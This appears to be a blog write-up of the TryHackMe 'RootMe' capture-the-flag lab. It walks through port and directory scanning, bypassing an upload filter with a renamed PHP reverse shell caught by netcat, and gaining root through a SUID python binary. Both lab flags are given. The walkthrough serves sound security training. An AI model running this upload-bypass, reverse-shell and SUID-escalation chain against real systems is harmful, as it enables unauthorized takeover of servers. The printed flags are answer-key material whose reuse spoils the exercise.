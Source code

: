 ```yaml
---
layout: single
title: RootMe - TryHackMe
excerpt: "RootMe is a quick and fun easy CTF for beginners where we have to upload a php file to receive a reverse shell and use python to be root"
date: 2023-01-31
classes: wide
header:
  teaser: /assets/images/try-writeup-rootme/icon.png
  teaser_home_page: true
  icon: /assets/images/tryhackme.webp
categories:
  - TryHackme
  - infosec
tags:  
  - SUID
  - PHP
---
```

![](/assets/images/try-writeup-rootme/icon.png)

RootMe is a quick and fun easy CTF for beginners where we have to upload a php file to receive a reverse shell and use python to be root

## PortScan

```
Nmap scan report for 10.10.55.4
Host is up (0.37s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Task 2 Reconnaissance

*Scan the machine, how many ports are open?* `2`

*What version of Apache is running?* `2.4.29`

*What service is running on port 22?* `ssh`

*Find directories on the web server using the GoBuster tool.* `No answer needed`

To answer the last question we need to do fuzzing first

```
❯ gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt -t 20 -u http://10.10.55.4
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.55.4
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/01/31 23:38:50 Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 305] [--> http://10.10.55.4/js/]
/uploads              (Status: 301) [Size: 310] [--> http://10.10.55.4/uploads/]
/css                  (Status: 301) [Size: 306] [--> http://10.10.55.4/css/]    
/panel                (Status: 301) [Size: 308] [--> http://10.10.55.4/panel/]  
/server-status        (Status: 403) [Size: 275]
```

*What is the hidden directory?* `/panel/`

The same directories
```
❯ nmap --script http-enum -p80 10.10.55.4 -oN webScan
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-31 23:41 CST
Nmap scan report for 10.10.55.4
Host is up (0.16s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

```

## Getting a shell

WebPage

```js
❯ whatweb http://10.10.55.4
http://10.10.55.4 [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.55.4], Script, Title[HackIT - Home]
```

This is the WebPage

![](/assets/images/try-writeup-rootme/webpage.png)

We can upload files in `/panel/`

![](/assets/images/try-writeup-rootme/panel.png)

The web have PHP so can try to upload a file to receive a reverse shell

- [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
❯ git clone https://github.com/pentestmonkey/php-reverse-shell
Clonando en 'php-reverse-shell'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 10 (delta 1), reused 1 (delta 1), pack-reused 7
Recibiendo objetos: 100% (10/10), 9.81 KiB | 4.90 MiB/s, listo.
Resolviendo deltas: 100% (2/2), listo.
❯ ls
 php-reverse-shell
❯ cd php-reverse-shell
❯ ls
 CHANGELOG   COPYING.GPL   COPYING.PHP-REVERSE-SHELL   LICENSE   php-reverse-shell.php   README.md
```

Now we have to modify the script with our IP and port 

![/assets/images/try-writeup-rootme/xd.png](/assets/images/try-writeup-rootme/xd.png)


If you try to upload the file doesn't work 

![/assets/images/try-writeup-rootme/F.png](/assets/images/try-writeup-rootme/F.png)


We need to bypass that so change the name of the script

```
❯ mv php-reverse-shell.php php-r.phptml
❯ ls
 CHANGELOG   COPYING.GPL   COPYING.PHP-REVERSE-SHELL   LICENSE   php-r.phptml   README.md
```

It works 

![/assets/images/try-writeup-rootme/work.png](/assets/images/try-writeup-rootme/work.png)

Now go to `/uploads`

![/assets/images/try-writeup-rootme/shell.png](/assets/images/try-writeup-rootme/shell.png)


Now listen on the port you put in the script

```
❯ nc -lvnp 443
listening on [any] 443 ...
```

Click on the file if you have problems or you don't receive the shell change the name of the script `.php5`

![/assets/images/try-writeup-rootme/click.png](/assets/images/try-writeup-rootme/click.png)


```
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.18.12.205] from (UNKNOWN) [10.10.55.4] 41936
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:11:23 up 41 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@rootme:/$
Ctrl+z
stty raw -echo; fg
reset xterm
```

## User.txt

```
www-data@rootme:/$ find / -name user.txt 2>/dev/null
/var/www/user.txt
www-data@rootme:/$
```

```
www-data@rootme:/$ cat /var/www/user.txt 
THM{y0u_g0t_a_sh3ll}
www-data@rootme:/$
```

## Privilege escalation

Python is SUID

```
www-data@rootme:/$ find / -perm -4000 2>/dev/null | grep -v snap   
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
www-data@rootme:/$
```

*Search for files with SUID permission, which file is weird?* `/usr/bin/python`

*Find a form to escalate your privileges.* `no answer needed`

Before root.txt

-[Be root with python](https://gtfobins.github.io/gtfobins/python/#suid)

```
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt  
THM{pr1v1l3g3_3sc4l4t10n}
# 
```

*root.txt* `THM{pr1v1l3g3_3sc4l4t10n}`















































